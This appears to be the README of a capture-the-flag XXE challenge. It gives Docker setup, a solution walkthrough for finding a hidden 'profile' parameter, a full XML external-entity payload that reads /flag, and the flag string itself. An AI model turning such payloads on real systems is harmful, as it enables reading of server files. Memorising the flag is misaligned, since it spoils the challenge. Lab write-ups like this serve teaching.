 ## XXE Challenge
## Run the below commands to get Started after cloning the repo
```
docker-compose up
```
Server will start listening on port 4446.

## Solution

1. On visiting the home page(http://localhost:4446), there is a hint in the source code in the index.html page

```
<!--       Todo: Adding UI Change for loading the profile details uploaded publicly in XML format via query param-->


```
2. User has to use paramminer or similar tool to guess the param which is **profile**.

3. After this, either user can guess the XML format or can search for the publicly XML file whose values are being reflected by default in the siter.

Payload to retreive the content of Flag
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/flag">
]>

<ProfileDetails>
<name>&xxe;</name>
<age>21</age>
<experience>1</experience>
<country>IN</country>
<location>localhost</location>
<email>test@gmail.com</email>
<phone>12345</phone>
<freelance>Available</freelance>
</ProfileDetails>


```
Current XML Hosted gist Url:
https://gist.githubusercontent.com/p3n7a90n/2aa9e9f71df33da9b47aa64f88a7cd93/raw/62c68828306b9879c4a6274a481d9bc68a7ee178/profile.xml

## Flag
Flag{TuwVuMnFzBeKesam27by_so_you_know_XXE}